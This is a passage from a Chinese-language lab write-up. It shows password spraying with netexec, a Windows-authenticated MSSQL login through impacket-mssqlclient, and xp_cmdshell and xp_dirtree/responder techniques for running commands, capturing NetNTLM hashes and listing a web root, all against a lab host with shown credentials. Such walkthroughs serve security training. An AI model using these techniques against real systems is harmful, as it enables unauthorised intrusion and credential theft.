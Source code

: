 我们得到了 `Operator` 账户的账号密码

```
username: Operator
password: operator
```

> [!note]
> 1. 使用 netexec 进行密码爆破的时候，需要设置 `--no-bruteforce` 这样可以在爆破的时候，用户名和密码一一对应，而不会每一个用户名都尝试一遍所有密码。
> 2. 设置 `--continue-on-success` 参数是为了爆破出所有的有效账户。如果不设置该参数，则会在爆破出第一个有效账户的时候，结束爆破。

先枚举 `Operator` 账户可以访问的smb文件共享，发现没有敏感文件可以访问。然后尝试用该账户访问mssql，发现可以成功访问

```bash
kali@kali[~]$ netexec mssql 10.10.11.236 -u Operator -p operator
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\Operator:operator
```

一并枚举 `winrm`、`ldap` 服务，发现还能访问 `ldap`
## 03. 使用Operator账户攻击MSSQL

我们先使用 `impacket-mssqlclient` 连上 mssql 数据库。

1. 尝试使用 `xp_cmdshell` 执行命令 --> 失败，报错数据库没有启用 `xp_cmdshell`
2. 尝试使用 `enable_xp_cmdshell` 启用 `xp_cmdshell` --> 失败，报错没有权限启用
3. 使用 `xp_dirtree` + `responder` 捕获 NetNTLM hash --> 捕获到的 NetNTLM hash 无法破解成明文
4. 使用 `xp_dirtree` 收集本机信息，一番寻找之后在网站跟目录下找到了网站的备份文件

> [!note]
> 注：在使用 `impacket-mssqlclient` 进行数据库连接的时候，记得添加 `-windows-auth`。
> MSSQL的认证方式主要可以分为以下两种：
>    1. MSSQL直接创建的数据库账户，由MSSQL通过账户密码直接认证
>    2. 具有MSSQL访问权限的域用户，基于Windows的身份认证机制进行认证
> 
> 由于我们的账户属于域用户，所以在登录的时候，需要使用基于Windows的身份认证方式。如果不添加 `-windows-auth` 会登录失败

```bash
kali@kali[~]$ impacket-mssqlclient 'Operator':'operator'@'10.10.11.236' -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
<省略...>
SQL (MANAGER\Operator  guest@master)> xp_dirtree \inetpub\wwwroot\
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1
contact.html                          1      1
css                                   1      0
images                                1      0
index.html                            1      1
js                                    1      0
service.html                          1      1
web.config                            1      1
website-backup-27-07-23-old.zip       1      1
```
